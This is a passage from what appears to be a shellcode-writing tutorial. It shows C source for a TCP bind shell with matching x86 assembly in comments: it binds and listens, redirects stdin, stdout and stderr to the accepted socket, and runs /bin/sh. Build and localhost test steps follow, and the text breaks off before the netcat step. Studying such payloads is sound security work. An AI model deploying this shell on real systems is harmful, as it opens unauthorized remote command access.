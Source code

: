 ```c
    memset(&(hostaddr.sin_zero), '\0', 8); 
    bind(sockfd, (struct sockaddr *)&hostaddr, 
        sizeof(struct sockaddr));
     
    /*
    push byte 0x1   ; push backlog
    push esi        ; push sockfd
    mov ecx, esp    ; ecx contains pointer to listen() args
    int 0x80    ; make the call               
    */
    listen(sockfd, 1);
     
    /*
    push edx        ; push sinsz
    push edx        ; push clientaddr 
    push esi        ; push sockfd
    mov ecx, esp    ; ecx contains pointer to accept() args
    int 0x80    ; make the call
    */
    sinsz = sizeof(struct sockaddr_in);
    dupsockfd = accept(sockfd, 
        (struct sockaddr *)&clientaddr, &sinsz);
 
    /*
    mov ebx, eax    ; ebx contains dupsockfd
    xor ecx, ecx    ; zero ecx register
    mov cl, 0x3     ; set counter
    dupfd:
    dec cl          ; decrement counter
    mov al, 0x3f    ; dup2()
    int 0x80        ; make the call
    jne dupfd       ; loop until 0
    */
    dup2(dupsockfd,0); // stdin
    dup2(dupsockfd,1); // stdout
    dup2(dupsockfd,2); // stderr
 
    /*
    push edx        ; push null
    push 0x68732f6e ; hs/n
    push 0x69622f2f ; ib//
    mov ebx, esp    ; ebx contains address of //bin/sh
    push edx        ; push null
    push ebx        ; push address of //bin/sh
    mov ecx, esp    ; ecx pointer to //bin/sh
    push edx        ; push null
    mov edx, esp    ; edx contains pointer to null
    mov al, 0xb     ; execve()
    int 0x80    ; make the call
    */
    execve("/bin/sh", NULL, NULL);
}
```
Build the code:
```
$ gcc tcpbindshellc.c -o tcpbindshellc
```
Test above executable on localhost using netcat under X:
Open a terminal under working directory,
```
$ ./tcpbindshellc
```
Open another terminal,
```
```